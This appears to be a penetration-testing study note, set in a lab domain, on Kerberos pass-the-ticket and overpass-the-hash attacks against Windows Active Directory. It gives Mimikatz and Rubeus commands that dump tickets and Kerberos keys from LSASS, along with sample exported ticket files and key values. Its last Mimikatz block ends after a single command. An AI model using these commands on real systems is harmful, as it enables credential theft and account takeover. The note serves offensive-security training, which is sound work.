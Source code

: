 #windows/auth/pass-the-ticket
# #Kerberos
The Kerberos authentication system is ticket-based.
* `TGT - Ticket Granting Ticket` is the first ticket obtained on a Kerberos system.
* `TGS - Ticket Granting Service` allow services to verify user's identity.

If the user wants to connect to an MSSQL database, it will request a Ticket Granting Service (TGS) to The Key Distribution Center (KDC), presenting its Ticket Granting Ticket (TGT). Then it will give the TGS to the MSSQL database server for authentication
# Attack
Tickets are processed and stored by the #LSASS
As a non-administrative user, you can only get your tickets, but as a local administrator, you can collect everything.
#### #Mimikatz - export tickets
```cmd
mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::tickets /export
mimikatz # exit

dir *.kirbi

-a----        7/12/2022   9:44 AM           1445 [0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
-a----        7/12/2022   9:44 AM           1565 [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi
```
The tickets that end with **$** correspond to the computer account, which needs a ticket to interact with the Active Directory. User tickets have the user's name, followed by an **@** that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi`
#### #Rubeus - export tickets
```cmd
Rubeus.exe dump /nowrap

<snip>
```
## Pass the Key or OverPass the Hash
The `Pass the Key` or `OverPass the Hash` approach converts a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full `Ticket-Granting-Ticket (TGT)`
#### Mimikatz - Extract Kerberos Keys
```cmd
mimikatz.exe

mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys

<snip>
```
**Now that we have access to the AES256_HMAC (b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60) and RC4_HMAC (3f74aa8f08f712f09cd5177b5c1ce50f) keys** 
#### Mimikatz - Pass the Key or OverPass the Hash
```cmd
mimikatz.exe

mimikatz # privilege::debug

```